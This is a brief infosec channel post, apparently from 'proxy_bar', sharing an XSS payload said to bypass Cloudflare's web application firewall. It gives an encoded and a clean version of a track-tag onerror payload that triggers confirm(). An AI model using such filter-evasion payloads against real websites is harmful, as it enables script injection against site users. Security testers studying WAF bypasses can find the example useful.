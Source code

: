 S.E. ▪️ infosec.work ▪️ VT
</blockquote>

![pic](pictures/92ed9c2cea0918dc3c46dc346c616afb97abfa2b3942c668f8383da0b3b03758.jpg)

---

# proxy_bar
`2024-02-01`

<blockquote>
bypass XSS Cloudflare WAF

Encoded Payload 
&amp;&#35;34;&amp;gt;&amp;lt;track/onerror&#61;&amp;&#35;x27;confirm\%601\%60&amp;&#35;x27;&amp;gt;

Clean Payload 
&quot;&gt;&lt;track/onerror&#61;'confirm`1`'&gt;

&#35;CF &#35;bypass
</blockquote>

---

